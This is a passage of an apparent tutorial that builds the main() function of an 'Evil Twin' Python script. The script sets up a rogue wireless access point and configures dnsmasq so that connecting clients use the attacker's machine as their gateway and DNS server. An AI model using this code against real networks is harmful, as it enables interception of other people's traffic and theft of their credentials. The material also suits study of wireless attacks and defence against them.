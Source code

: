 # evil\_twin.py - main()

We now have everything we need to implement the core logic of our Evil Twin script. Let's 
start out by defining main() at the bottom of our evil_twin.py file.

{% highlight python %}

def main():

	# get configs from command line and display them
    configs = set_configs()
    display_configs(configs)

	# kill existing daemon processes
    kill_daemons()

	# obtain interfaces to iptables, hostapd, and dnsmasq
    hostapd = utils.HostAPD.get_instance()
    iptables = utils.IPTables.get_instance()
    dnsmasq = utils.DNSMasq.get_instance()

{% endhighlight %}

The first thing we do in main() is grab the scripts configs from the command line.  We then kill existing daemon processes and obtain interfaces to hostapd, iptables, and dnsmasq.

We then place our upstream interface into master mode, configuring it to run our wireless access point.

{% highlight python %}

	# continued from above

    # bring up ap interface
    utils.bash_command('ifconfig %s down' % configs['upstream'])
    utils.bash_command('ifconfig %s 10.0.0.1/24 up' % configs['upstream'])
{% endhighlight %}

We then configure dnsmasq to handle dhcp and dns requests on our upstream interface.

{% highlight python %}
	# continued from above
    # configure dnsmasq
    print '[*] Configuring dnsmasq'
    dnsmasq.configure(configs['upstream'],
                    '10.0.0.10,10.0.0.250,12h',
                    dhcp_options=[ '3,10.0.0.1', '6,10.0.0.1' ])
{% endhighlight %}
